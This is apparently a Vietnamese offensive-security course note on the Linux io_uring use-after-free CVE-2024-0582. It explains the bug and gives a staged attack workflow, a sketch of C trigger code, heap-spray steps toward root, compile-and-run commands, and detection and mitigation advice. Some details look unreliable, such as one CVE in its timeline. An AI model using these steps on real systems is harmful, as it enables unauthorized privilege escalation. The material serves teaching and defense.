

> **Prerequisites**: [[06-heap-uaf-double-free|06. Heap UAF]] · [[09-exploit-primitives|09. Exploit Primitives]]
> **Objectives**:
> - Hiểu io_uring — high-performance async I/O subsystem trong Linux kernel
> - Phân tích bug UAF trong io_uring (CVE-2024-0582) — use-after-free trong buffer ring management
> - Hiểu tại sao io_uring là attack surface nguy hiểm (nhiều CVEs liên tiếp)
> - Nắm được exploitation approach: heap spray + fake vtable từ io_uring UAF
>
---

## Điều kiện khai thác

> [!note] Điều kiện bắt buộc
> - Kernel 6.4 – 6.7.1 (trước khi patch được merge)
> - Ubuntu với kernel version 6.5.x (HWE hoặc mainline)
> - User có thể gọi `io_uring_setup()` syscall (thường không bị block)
> - Không cần privileges đặc biệt
>
---

## Cơ chế tấn công

### io_uring — Async I/O Subsystem

io_uring (được giới thiệu kernel 5.1) là interface high-performance cho async I/O. Thay vì blocking syscalls, nó dùng shared ring buffers giữa user và kernel:

```text
User space:                       Kernel space:
┌─────────────────┐              ┌─────────────────┐
│ SQ Ring         │ ──submit──→  │ io_uring kernel │
│ (submission     │              │ code processes  │
│  queue)         │  ←complete─  │ operations      │
│ CQ Ring         │              │                 │
│ (completion     │              │                 │
│  queue)         │              │                 │
└─────────────────┘              └─────────────────┘
```

**Buffer rings** (io_uring_register với IORING_REGISTER_PBUF_RING): Cho phép register shared buffer ring để kernel tự động chọn buffer cho I/O operations.

### CVE-2024-0582 — Buffer Ring UAF

Bug trong `io_pbuf_ring_drop()` — khi unregister buffer ring, kernel giải phóng struct `io_buf_list` nhưng không remove nó khỏi XArray lookup structure đúng cách. Dẫn đến UAF: struct bị free nhưng vẫn accessible qua lookup.

```c
// Simplified vulnerable flow:
io_uring_register(IORING_UNREGISTER_PBUF_RING)
    → io_pbuf_ring_drop(ctx, bl)
        → kfree(bl)          // bl freed!
        // xa_erase không được gọi đúng cách → bl còn trong XArray
        
// Sau đó:
io_uring_register(IORING_REGISTER_PBUF_RING)
    → xa_load(xa, bgid)      // returns bl (freed!)
    → bl->bufs used          // UAF!
```

**Exploitation path**: UAF → heap spray với msg_msg hoặc tty_struct → fake function pointer → RIP control → privilege escalation.

### io_uring là Attack Surface Nguy Hiểm

io_uring có bề mặt tấn công rộng vì:

1. **Complexity**: Cực kỳ phức tạp — hàng nghìn dòng code xử lý edge cases
2. **Direct kernel access**: Hoạt động gần với kernel internals
3. **Many CVEs**: CVE-2022-2585, CVE-2023-2598, CVE-2024-0582, và nhiều hơn
4. **Often allowed**: Không bị seccomp block mặc định trong nhiều configs

```bash
# Kiểm tra io_uring có bị restrict không:
cat /proc/sys/kernel/io_uring_disabled
# 0 = enabled (default)
# 1 = disabled
# 2 = disabled except privileged

# Google đã disable io_uring trong Android và ChromeOS vì security concerns
```

---

## Quy trình tấn công

**Môi trường**: Ubuntu 23.10, kernel 6.5.0-15-generic (vulnerable to CVE-2024-0582).

**Bước 1 — Verify target**

```bash
uname -r
# 6.5.0-15-generic → check CVE-2024-0582 status

# io_uring available?
cat /proc/sys/kernel/io_uring_disabled
# 0 → enabled

# Quick check với python:
python3 -c "
import ctypes, os
libc = ctypes.CDLL('libc.so.6', use_errno=True)
# io_uring_setup(1, params)
params = (ctypes.c_uint32 * 20)()
ret = libc.syscall(425, 1, ctypes.byref(params))  # 425 = io_uring_setup
import ctypes
print('io_uring available' if ret >= 0 else f'Error: {ctypes.get_errno()}')
"
```

**Bước 2 — Trigger UAF (conceptual)**

```c
#include <liburing.h>
#include <stdio.h>
#include <stdlib.h>

int main() {
    struct io_uring ring;
    struct io_uring_params params = {0};

    // Setup io_uring
    int ret = io_uring_queue_init_params(32, &ring, &params);
    if (ret < 0) { perror("io_uring_queue_init"); return 1; }

    // Register buffer ring
    struct io_uring_buf_ring *br;
    struct io_uring_buf_reg reg = {
        .ring_addr = 0,  // let kernel allocate
        .ring_entries = 8,
        .bgid = 0,
    };
    ret = io_uring_register_buf_ring(&ring, &reg, 0);
    if (ret < 0) { perror("register buf ring"); return 1; }

    // Trigger UAF: unregister (free) + register again (use freed)
    io_uring_unregister_buf_ring(&ring, 0);   // frees io_buf_list

    // Spray với spray objects (msg_msg, tty_struct...)
    // (spray vào slot freed của io_buf_list)
    spray_kernel_objects();

    // Re-register → UAF: XArray still has freed ptr
    io_uring_register_buf_ring(&ring, &reg, 0);
    // → kernel dùng freed io_buf_list → UAF
    // → spray object bị dùng như io_buf_list
    // → controlled data = controlled struct fields

    printf("[*] UAF triggered\n");
    return 0;
}
```

**Bước 3 — Heap spray và RIP control**

```c
// Spray objects cùng size với io_buf_list:
// pahole -C io_buf_list vmlinux → xác định size
// Spray candidates: msg_msg, pipe_buffer...

// Sau khi spray và UAF trigger:
// → spray object chiếm slot của io_buf_list
// → io_uring operations dùng spray object như io_buf_list
// → controlled fields trong spray object → leak / RIP control
// → Build ROP chain → root (Lesson 12 approach)
```

**Bước 4 — Full exploitation reference**

```bash
# PoC đầy đủ có trên các security research blogs:
# - https://pwning.tech/nftables/  (similar io_uring approach)
# - HTB machine "Checker" uses race condition path
# - Qualys research on CVE-2024-0582

# Compile với liburing:
sudo apt install liburing-dev
gcc exploit.c -o exploit -luring
./exploit
# → uid=0(root)
```

---

## Biến thể — io_uring CVEs Timeline

io_uring có lịch sử dài về security vulnerabilities:

| CVE | Kernel | Bug Type | Severity |
|-----|--------|---------|---------|
| CVE-2022-2585 | 5.19 | UAF in task work | Critical |
| CVE-2023-2598 | 6.2 | OOB in fixed buffer | High |
| CVE-2023-6931 | 6.6 | Heap buffer overflow | High |
| **CVE-2024-0582** | **6.4-6.7** | **UAF in pbuf ring** | **High** |
| CVE-2024-1085 | 6.6 | UAF in nft_setelem | High |

Pattern chung: io_uring phức tạp → nhiều bugs → nhiều CVEs → attack surface rộng.

---

## Cây quyết định



---

## Command Cheatsheet

**Check io_uring**

```bash
cat /proc/sys/kernel/io_uring_disabled   # 0 = enabled
uname -r   # 6.4-6.7.1 = vulnerable range
```

**Compile với liburing**

```bash
sudo apt install -y liburing-dev
gcc -O2 exploit.c -o exploit -luring -lpthread
./exploit
```

**Disable io_uring (defense)**

```bash
echo 1 | sudo tee /proc/sys/kernel/io_uring_disabled
# Permanent: sysctl -w kernel.io_uring_disabled=1
```

---

## Daily Drill

**Thời gian**: 15 phút để hiểu architecture.

**Drill 1 — io_uring UAF flow**
Mục tiêu: Giải thích bug mà không nhìn notes.

```c
Register buf ring → Unregister (kfree) → XArray không clean → Spray → Re-register → UAF
```

**Drill 2 — Verify target**

```bash
uname -r; cat /proc/sys/kernel/io_uring_disabled
```

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **Syscall monitoring**: Nhiều `io_uring_register` + `io_uring_unregister` calls trong thời gian ngắn từ một process → anomaly
> **KASAN**: `BUG: KASAN: use-after-free in io_pbuf_ring_drop` nếu kernel có KASAN
> **seccomp**: Block `io_uring_setup` nếu ứng dụng không cần
>
> [!note] Mitigation
> - **Update kernel >= 6.7.2** (patch merged 2024-01-09)
> - Ubuntu: `apt upgrade linux-image-$(uname -r)` sau khi patch available
> - `sysctl -w kernel.io_uring_disabled=1` nếu không cần io_uring (aggressive)
> - seccomp: block io_uring syscalls (425, 426, 427) nếu workload không cần
> - Google policy: disable io_uring trong production (Chrome, Android)
>
---

## Lab Thực hành

| Platform | Challenge | Tại sao phù hợp |
|----------|-----------|----------------|
| HTB | **Checker** (Retired) | io_uring race condition path |
| CVE | CVE-2024-0582 PoC trên research blogs | Reproduce trên Ubuntu 23.10 |
| Local | Ubuntu 23.10 với kernel 6.5 | Vulnerable to CVE-2024-0582 |
| CTF | io_uring kernel challenges | Modern kernel exploitation |

---

## Field Manual Entry

> [!abstract] io_uring UAF (CVE-2024-0582) — Quick Reference
> **Điều kiện**: Kernel 6.4–6.7.1; io_uring enabled (`/proc/sys/kernel/io_uring_disabled` = 0)
> **Bug**: `io_pbuf_ring_drop()` frees `io_buf_list` nhưng XArray không cleaned → re-use returns freed ptr
> **Flow**: register pbuf ring → unregister (kfree) → spray → re-register → UAF → heap spray → RIP
> **Check**: `uname -r` in 6.4-6.7.1 range + io_uring_disabled=0
> **Disable (defense)**: `echo 1 > /proc/sys/kernel/io_uring_disabled`
> **Ref**: [[25-io-uring-uaf|25. io_uring UAF — CVE-2024-0582]]
>